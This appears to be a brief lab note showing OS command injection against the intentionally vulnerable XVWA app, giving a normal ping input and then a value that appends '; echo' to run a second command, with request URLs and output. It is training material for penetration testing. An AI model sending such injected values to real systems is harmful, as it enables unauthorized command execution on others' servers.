 # OS Command Injection

Input: 127.0.0.1
URL: GET /xvwa/vulnerabilities/cmdi/?target=127.0.0.1
Output:
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.030 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.034 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.024 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2096ms
rtt min/avg/max/mdev = 0.024/0.029/0.034/0.006 ms
```

Input: 127.0.0.1; echo 'Hello World!'
URL: GET /xvwa/vulnerabilities/cmdi/?target=127.0.0.1%3B+echo+%27Hello+World%21%27
Output:
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.025 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.033 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.031 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2064ms
rtt min/avg/max/mdev = 0.025/0.029/0.033/0.007 ms
Hello World!
```

## References:
https://learning.oreilly.com/library/view/hands-on-application-penetration/9781788994064/1b4749e1-f3e0-4e65-804f-56bbd98968f2.xhtml
